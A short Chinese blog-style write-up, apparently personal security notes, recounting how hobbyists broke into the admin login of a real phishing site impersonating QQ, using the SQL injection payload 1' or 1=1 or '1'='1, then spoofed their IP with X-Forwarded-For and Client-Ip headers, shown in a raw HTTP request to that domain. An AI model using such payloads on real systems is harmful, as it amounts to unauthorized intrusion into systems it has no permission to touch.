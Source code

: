 # 一次后台登陆实验
<font size=5>
看着比赛群里大佬在搞一些钓鱼网站，跟着混一混，涨一涨姿势。

## 钓鱼网站后台
http://qznoe.qq.com.xklove.xyz/admin/login.php

初始的域名就是钓鱼的界面

## 师傅们的方法
打开网站后台
![](./img/1.png)
其实很简单，直接用万能密码

	1' or 1=1 or '1'='1
直接搞定


![](./img/2.png)


## 伪造ip的事情
之后师傅们把原来网站上非法窃取的用户数据全部删除后，就成了兄弟们的练习靶场，开始互相比，谁的数据更骚。

这里我发现师傅门都是伪造的ip地址，于是我也请教了一波。
### 两种方法， X-Forward-For，或者Client-Ip。
之前做过题目，用的是 X-Forward-For，结果这一次服务端没有用相应的函数，直接将我的ip暴漏在数据库里。多亏好心的师傅把我的数据删除了。其实Client-Ip跟xff用法一样，区别是服务端用什么来获取。

最后附上伪造ip的数据包。
![](./img/3.png)

	POST /2017.php HTTP/1.1
	Host: qznoe.qq.com.xklove.xyz
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
	 X-Forwarded-For:lalala
	Client-Ip:xj cxk
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Accept-Encoding: gzip, deflate
	Referer: http://qznoe.qq.com.xklove.xyz/
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 24
	Connection: close
	Cookie: PHPSESSID=hjrusuvmjg60jsgb9dvegmfae0
	Upgrade-Insecure-Requests: 1
	
	u=xjtu cxk&p=cxk&submit=
